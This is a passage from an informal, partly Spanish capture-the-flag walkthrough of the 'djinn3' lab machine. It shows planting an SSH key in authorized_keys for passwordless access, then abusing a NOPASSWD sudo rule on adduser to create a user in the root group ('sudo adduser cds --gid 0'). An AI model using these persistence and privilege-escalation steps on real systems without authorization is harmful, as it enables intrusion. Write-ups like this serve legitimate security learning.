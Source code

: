 el va a poner la clave publica de nuestra computadora en su ssh private key folder, donde el tiene capacidad de escritura

Es para yo convertirme en un usuario autorizado sin usar contraseña ... sera desde mi computadora imagino..


Yes is from my computer and finally I'm IN !!!!

```
saint@djinn3:~$ ls -la
```

On this folder are my keys

```
saint@djinn3:~/.ssh$ ls -la
total 12
drwxr-xr-x 2 saint saint 4096 Jun  4  2020 .
drwxr-x--- 7 saint saint 4096 Jun  4  2020 ..
-rw-rw-r-- 1 saint saint  561 Aug 16 06:15 authorized_keys
saint@djinn3:~/.ssh$ 
```


If the bash is pointint to the /dev/null  I cannot see the historic of the user 

```
lrwxrwxrwx 1 saint saint    9 May 17  2020 .bash_history -> /dev/null
```

next step  commands

```
saint > id
saint > sudo -l
saint > User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser,
        !/usr/sbin/adduser * sudo,
        !/usr/sbin/adduser * admin
```
I can use this... I can add users as saint
```
saint>adduser --help

```

the --uid 0 makes a root user.. but already exists

```
saint>sudo adduser cds --uid 0
```
but we can use the --gid 0 and be on the root group

```
saint>sudo adduser cds --gid 0
```

so, when i create a file for example on the folder /tmp , called  "a" , this one have root privileges as you can see 

